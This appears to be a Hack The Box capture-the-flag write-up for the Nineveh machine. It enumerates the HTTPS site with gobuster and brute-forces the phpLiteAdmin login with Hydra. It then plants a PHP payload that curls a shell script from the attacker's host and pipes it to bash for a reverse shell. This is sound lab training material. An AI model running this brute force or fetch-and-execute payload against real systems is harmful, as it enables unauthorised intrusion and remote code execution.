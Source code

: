 # 15 - HTTPS


# index.php

![](vx_images/4353422831360.png)


Let's run gobuster against it.

# Gobuster


```sql
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/nineveh/gobuster]
└─$ cat https.log 
/index.html           (Status: 200) [Size: 49]
/db                   (Status: 301) [Size: 309] [--> https://nineveh.htb/db/]
/server-status        (Status: 403) [Size: 300]
/secure_notes         (Status: 301) [Size: 319] [--> https://nineveh.htb/secure_notes/]
```


# db/index.php
![](vx_images/2464990737220.png)

After trying admin, amrois as phpliteadmin password let's try bruteforcing the password because it's way more efficient.

# Hydra

```sql
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/nineveh]
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt nineveh.htb https-post-form '/db/index.php:password=^PASS^&remember=yes&test=^USER^&login=Log+In&proc_login=true:Incorrect'
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-05-29 15:19:36
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-forms://nineveh.htb:443/db/index.php:password=^PASS^&remember=yes&test=^USER^&login=Log+In&proc_login=true:Incorrect
[STATUS] 225.00 tries/min, 225 tries in 00:01h, 14344174 to do in 1062:32h, 16 active
[443][http-post-form] host: nineveh.htb   login: admin   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-05-29 15:22:31
```
We get a default password 

Creds
* login: admin 
* password: password123

# phpLiteAdmin page

![](vx_images/3160834452900.png)


# Searchsploit

![](vx_images/771046578736.png)

# Exploit

![](vx_images/2275095479276.png)


# Let's create the database

![](vx_images/3094131054868.png)

Remember LFI requires the word **Notes**?

# Create a table
 ![](vx_images/5422214717498.png)

# Upload the reverse shell


![](vx_images/230772088323.png)

```php
<?php system("curl $IP/shell.sh | bash");?>
```

Single quotes didn't work for me


# Initial Shell Access
![](vx_images/155396688352.png)